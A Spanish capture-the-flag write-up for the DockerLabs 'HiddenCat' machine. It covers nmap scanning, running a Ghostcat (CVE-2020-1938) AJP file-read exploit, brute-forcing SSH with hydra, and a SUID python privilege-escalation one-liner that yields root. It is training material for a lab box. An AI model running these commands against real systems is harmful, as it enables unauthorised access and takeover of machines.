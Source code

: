 # Máquina HiddenCat

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8009/tcp open  ajp13      syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,8009,8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
```

Vemos la versión de Tomcat -> **9.0.30**

--------------
## Explotación

Si buscamos exploits para esa versión concreta de **Tomcat**, encontraremos una vulnerabilidad concreta en **github**:
Vulnerabilidad -> [Enlace github](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938)

Esta vulnerabilidad nos lleva hasta este exploit en python -> [Exploit](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

```shell
python2.7 CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f /WEB-INF/web.xml 172.17.0.2
```

![Pasted image 20240511201812](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3d8e4fd8-f4a3-4fe8-9bab-b860058de071)

Hemos conseguido ver el contenido del archivo **/WEB-INF/web.xml**.
Vemos que el admin o un usuario que se llama **Jerry**.
Aplicamos fuerza bruta con ese usuario al **ssh** y obtenemos sus credenciales:

```shell
hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
------------------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
```

Estamos dentro !

------------------------------
## Escalada de privilegios

Si buscamos por archivos con permisos **SUID** en el sistema, encontramos por ejemplo **python** con el cual es fácil escalar privilegios:

```shell
find / -perm -4000 2>/dev/null
----------------------------
/usr/bin/perl
/usr/bin/perl5.28.1
/usr/bin/python3.7
/usr/bin/python3.7m
```

```shell
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
whoami
--------------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema ! 
